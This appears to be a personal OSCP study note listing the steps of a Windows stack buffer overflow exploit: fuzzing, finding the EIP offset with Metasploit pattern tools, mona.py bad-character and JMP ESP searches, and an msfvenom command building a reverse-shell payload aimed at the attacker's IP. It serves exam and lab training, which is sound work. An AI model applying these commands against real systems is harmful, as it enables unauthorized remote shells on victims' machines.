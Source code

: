 1. Fuzz and get crash length
2. Use metasploit-framework's create_pattern.rb to get pattern payload
	1. msf-pattern_create -l [crash + 400]
	2. /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [crash + 400]
4. With the value in the EIP get the exact offset using metasploit-framework's pattern_offset.rb
	1. msf-pattern_offset -q [EIP] -l [crash + 400]
	2. /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [EIP] -l [crash + 400]
or
		1. !mona findmsp -distance [crash + 400]
1. Identify bad characters by sending payload to the stack filled with all possible characters and seeing which have altered values: !mona bytearray -b "\x00"
2. Get the return adress of jump function that doesn't contain any of the bad chars:
	1. !mona modules
	2. !mona find -s "\xff\xe4" -m [module] -cpb [bad chars] or  !mona jmp -r esp -cpb "\x00"
3. create payload with msfvenom: msfvenom -p windows/shell_reverse_tcp LHOST=[OWN IP] LPORT=[PORT to listen on] EXITFUNC=thread -b [bad chars to exclude from payload] -f c
4. Get shell

## Tips
- THM buffer overflow OSCP prep
- Practice using mona.py
- Download vulnerable exe from exploit db
- [GitHub - justinsteven/dostackbufferoverflowgood](https://github.com/justinsteven/dostackbufferoverflowgood)
- [PWK/OSCP – Stack Buffer Overflow Practice – vortex's blog](https://www.vortex.id.au/2017/05/pwkoscp-stack-buffer-overflow-practice/)
- Easy 25 points
- [PWK-OSCP-Preparation-Roadmap/BOF at master · security-prince/PWK-OSCP-Preparation-Roadmap · GitHub](https://github.com/security-prince/PWK-OSCP-Preparation-Roadmap/blob/master/BOF)